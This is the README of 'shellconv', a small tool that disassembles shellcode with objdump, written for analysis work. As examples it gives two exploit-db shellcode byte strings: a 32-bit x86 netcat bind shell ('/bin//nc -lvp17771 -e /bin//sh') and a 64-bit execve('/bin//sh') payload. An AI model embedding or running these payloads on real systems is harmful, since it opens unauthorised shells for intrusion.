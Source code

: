 # shellconv
Small tool for disassembling shellcode (using objdump)<br/>
<pre>
Use: ./shellconv.py [inFile] [arch:optional] [outFile:optional]
arch: defined as in objdump -m, default: i386
</pre>
<hr/>
<b>DISCLAIMER</b><br/>
This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.<br/>
<i>If you still think, that I should develop this tool further, and make it a fully-fledged app, feel free to write me an e-mail :) [hasherezade-at-op.pl]</i><hr/>
examples:
-
1) https://www.exploit-db.com/exploits/36921/<br/>
expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/edb1.png)
<br/><br/>
2) https://www.exploit-db.com/exploits/36858/<br/>
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/edb1_64.png)
<br/>
